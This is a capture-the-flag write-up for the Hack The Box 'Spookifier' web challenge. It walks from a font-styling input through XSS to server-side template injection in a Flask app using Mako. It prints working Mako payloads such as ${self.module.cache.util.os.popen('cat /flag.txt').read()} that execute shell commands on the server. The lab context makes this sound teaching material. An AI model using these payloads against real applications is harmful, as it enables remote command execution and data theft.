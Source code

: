 ```yaml
---
title: Spookifier HTB Challenge (English)
image: https://tse1.mm.bing.net/th?id=OIG1.iKzTRYDeUwZgb8AvNvbH&pid=ImgGn
description: Challenge Spookifier HTB [Difuculty very easy]
categories: [Challenge,HTB]
tags: [web,very easy]
---
```



## Introduction

N/A


### Machine Description

- Name: Spookifier
- Goal: Get the flag
- Difficulty: very easy
- Operating System: N/A
- link: [Spookifier](https://app.hackthebox.com/challenges/413)

  

### PDF Link
- PDF: [Link to PDF](https://github.com/juanbelin/Writeups-CTFs-Challenges/blob/main/HTB/Challenges/Challenge%20Spookifier.pdf)


## Explotation



We have this input where whatever we introduce we get their differents font styles:

![](/assets/img/Anexos/Pasted%20image%2020250402090826.png)

![](/assets/img/Anexos/Pasted%20image%2020250402090845.png)

We can try a **XSS Injecton** 
![](/assets/img/Anexos/Pasted%20image%2020250402090924.png)

It's worked, but this is not for this way.

If we check the web files we can affirm it's using _MakoTemplates_

```shell
❯ ls -l
drwxrwxrwx root root 4.0 KB Tue Nov  1 10:20:58 2022  application
.rwxrwxrwx root root 101 B  Tue Nov  1 09:38:18 2022  run.py
❯ cat run.py
───────┬────────────────────────────────────────────────────────────────────────────
       │ File: run.py
───────┼────────────────────────────────────────────────────────────────────────────
   1   │ from application.main import app
   2   │ 
   3   │ app.run(host='0.0.0.0', port=1337, debug=False, use_evalex=False)
```

```shell
❯ cat main.py
───────┬────────────────────────────────────────────────────────────────────────────
       │ File: main.py
───────┼────────────────────────────────────────────────────────────────────────────
   1   │ from flask import Flask, jsonify
   2   │ from application.blueprints.routes import web
   3   │ from flask_mako import MakoTemplates
   4   │ 
   5   │ app = Flask(__name__)
   6   │ MakoTemplates(app)
   7   │ 
   8   │ def response(message):
   9   │     return jsonify({'message': message})
  10   │ 
  11   │ app.register_blueprint(web, url_prefix='/')
  12   │ 
  13   │ @app.errorhandler(404)
  14   │ def not_found(error):
  15   │     return response('404 Not Found'), 404
  16   │ 
  17   │ @app.errorhandler(403)
  18   │ def forbidden(error):
  19   │     return response('403 Forbidden'), 403
  20   │ 
  21   │ @app.errorhandler(400)
  22   │ def bad_request(error):
  23   │     return response('400 Bad Request'), 400
```

So let's try **SSTI**

![](/assets/img/Anexos/Pasted%20image%2020250402091448.png)
it does not work with this payload, let's try with:

```shell
${7*7} 
```

![](/assets/img/Anexos/Pasted%20image%2020250402091506.png)

It worked. This is MakoTemplates so the next step is **command injection**:

```shell
${self.module.cache.util.os.system("id")}
```


![](/assets/img/Anexos/Pasted%20image%2020250402091908.png)

At firts I was not able to see the output, that's why we have to replace `os.system()` with `os.popen().read()`

```shell
${self.module.cache.util.os.popen('id').read()}
```
![](/assets/img/Anexos/Pasted%20image%2020250402092715.png)

Now we're able to see the output and we get the flag!

```shell
${self.module.cache.util.os.popen('cat /flag.txt').read()}
```

![](/assets/img/Anexos/Pasted%20image%2020250402092735.png)